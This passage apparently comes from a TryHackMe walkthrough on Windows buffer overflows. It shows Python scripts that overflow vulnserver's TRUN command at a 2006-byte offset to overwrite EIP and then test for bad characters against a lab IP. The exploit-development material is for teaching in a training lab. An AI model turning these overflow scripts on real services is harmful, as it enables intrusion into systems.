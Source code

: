 You will get an error if you used the **9oC8**  as the EIP. Refer to the description, the data actually presented in little-endian. To change it into big-endian, simply reverse the letters, which is **8Co9**.

![2006](/assets/images/THM/2020-08-13-intro-to-windows-bof/19.png)

2006 is the exact location that causes the crash. It means, we need 2006 letters 'A'. Re-launch and re-attach the vulnserver, Then, run the following script to overwrite the EIP with our desired value.

```python
#!/usr/bin/python
import socket
server = "<Machine IP>"
port = 9998
function = "TRUN ."
overflow = 'A' * 2006
EIP = 'AECD'
exploit = function + overflow + EIP + "\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, port))
s.send((exploit))
s.close()
```

My desire value is 'AECD'.

![abcd](/assets/images/THM/2020-08-13-intro-to-windows-bof/20.png)

We are now successfully overwriting the EIP. Time to check for the bad character.

```python
#!/usr/bin/python
import socket
server = "10.10.72.207"
port = 9998
function = "TRUN ."
overflow = 'A' * 2006
EIP = "AECD"
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
exploit = function + overflow + EIP + badchars + "\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, port))
s.send((exploit))
s.close()
```